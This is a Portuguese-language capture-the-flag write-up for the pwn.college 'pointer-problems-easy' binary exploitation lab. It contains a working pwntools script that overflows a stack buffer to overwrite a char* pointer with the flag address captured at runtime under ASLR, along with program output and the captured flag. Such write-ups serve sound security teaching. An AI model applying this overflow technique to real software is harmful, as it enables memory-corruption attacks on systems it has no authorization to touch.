



# pwn.college — Pointer Problems Easy (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** Buffer overflow · Pointer overwrite · ASLR bypass via leitura em tempo de execução · recvuntil · Endereço dinâmico capturado com pwntools

---

## Descrição do Desafio

O desafio `pointer-problems-easy` apresenta uma mecânica diferente dos ret2win anteriores. Em vez de sobrescrever o return address para redirecionar a execução, o objetivo aqui é **sobrescrever um ponteiro `char*` na stack** — cujo conteúdo é impresso pelo programa via `printf` — fazendo-o apontar para a flag em memória.

O binário informa, a cada execução, onde estão:

- O início do buffer de input
- A posição do ponteiro `char*` na stack (80 bytes após o buffer)
- O endereço atual da flag em memória

A complicação central é que o binário possui **ASLR** habilitado: os endereços mudam a cada execução. Isso torna inviável qualquer abordagem estática — o endereço da flag precisa ser capturado **durante a própria execução** que enviará o payload.

---

## Reconhecimento Inicial

Ao rodar o binário, ele imprime todas as informações relevantes do estado da memória:



```
Our stack pointer points to 0x7ffc7da7aff0, and our base pointer points to 0x7ffc7da7b090.
This means that we have (decimal) 22 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 176 bytes.
The input buffer begins at 0x7ffc7da7b030, partway through the stack frame.
The buffer is 73 bytes long, but the program will let you provide an
arbitrarily large input length, and thus overflow the buffer.

This challenge has a char* on the stack that will be printed after parsing your input.
The char* is located at 0x7ffc7da7b080, 80 bytes after the start of your input buffer.
The flag  is located at 0x5cb1af2ff060.
```

Informações extraídas:

- **Offset até o ponteiro:** 80 bytes após o início do buffer
- **Endereço da flag:** `0x5cb1af2ff060` (muda a cada execução — ASLR)
- **Sem verificação de tamanho do payload** — overflow livre

### Por que o GDB não funciona aqui

Uma abordagem intuitiva seria pausar a execução com o GDB, ler o endereço da flag impresso, e montar o payload manualmente. Isso não funciona porque **o debugger dropa as permissões do processo** — mesmo descobrindo o endereço correto da flag via GDB, o processo não teria acesso de leitura ao arquivo de flag durante a sessão de debug, e o exploit falharia. A solução exige capturar o endereço **durante uma execução normal**, sem debugger.

---

## A Vulnerabilidade — Pointer Overwrite via Buffer Overflow

O programa lê input do usuário para um buffer de 73 bytes sem limitar o tamanho. Há um ponteiro `char*` localizado 80 bytes após o início desse buffer. Após receber o input, o programa chama `printf` com esse ponteiro — imprimindo o conteúdo do endereço para o qual ele aponta.

O fluxo de exploração é direto:

1. Preencher os 80 bytes até o ponteiro com bytes de padding
2. Sobrescrever os 8 bytes do ponteiro com o endereço da flag
3. O `printf` lerá a string no endereço da flag e a imprimirá

O único obstáculo é o ASLR: o endereço da flag muda a cada execução, então o payload precisa ser montado **na mesma execução** em que o endereço é lido.

---

## A Solução — Captura do Endereço em Tempo de Execução

A solução foi usar o `recvuntil` do pwntools para consumir a saída do binário até chegar na linha que contém o endereço da flag, capturá-lo como inteiro, e só então enviar o payload com esse valor embutido.



```python
from pwn import *

PATH = '/challenge/pointer-problems-easy'

p = process(PATH)

# Consome tudo até a string que precede o endereço da flag
binario = p.recvuntil("The flag  is located at ")
print(binario.decode())

# Lê os próximos 14 caracteres — o endereço em hex (ex: "0x5cb1af2ff060")
# e converte de string hexadecimal para inteiro
flag_addr = int(p.recv(14), 16)
print(f"A flag buscada é: {flag_addr}")

# Envia o tamanho do payload
p.sendline(b"88")

# 80 bytes de padding + endereço da flag em little-endian
p.sendline(b"A" * 80 + p64(flag_addr))

p.interactive()
```

### Por que `recv(14)`?

O endereço impresso pelo binário tem o formato `0x5cb1af2ff060` — exatamente **14 caracteres** (`0x` + 12 dígitos hex). O `recv(14)` captura esses 14 bytes, e `int(..., 16)` converte a string hexadecimal para o inteiro correspondente, que é então passado ao `p64()` para ser serializado em little-endian de 8 bytes.

### Por que 88 como tamanho?

O programa pede o tamanho do payload antes de ler o input. O payload tem 80 bytes de padding + 8 bytes do endereço = **88 bytes**.

---

## Resultado Final



```
Calling printf() to printf with the pointer...
The string on the stack is: pwn.college{wVxWNgMobbFfQmzvLoyr1xHvKd-.0lM4cDOxwCOzYTNxEzW}

Goodbye!
```

---

## Resumo do Fluxo de Exploração

```
1. Binário imprime endereço da flag (muda por ASLR a cada execução)
2. GDB não funciona → dropa permissões, exploit falharia mesmo com endereço correto
3. recvuntil("The flag  is located at ") → consome output até o endereço
4. recv(14) → captura os 14 chars do endereço em hex durante a execução normal
5. int(..., 16) → converte string hex para inteiro Python
6. Payload: 80 bytes de padding + p64(flag_addr) → sobrescreve o char* na stack
7. printf lê o char* sobrescrito → imprime a string no endereço da flag → flag obtida
```

---

## Comparação com os Desafios Anteriores

| | casting-catastrophe | pointer-problems-easy |
|---|---|---|
| Objetivo | Sobrescrever return address | Sobrescrever ponteiro `char*` |
| Proteção central | Verificação de tamanho (jbe) | ASLR |
| PIE | ❌ No PIE | ✅ ASLR habilitado |
| Canary | ❌ Sem canary | ❌ Sem canary |
| Endereço alvo | Fixo (`win`) | Dinâmico (flag muda por ASLR) |
| Solução para endereço | Estático no script | Capturado em tempo de execução via `recvuntil` |
| Limite de tamanho | Bypass via integer overflow | Sem restrição |
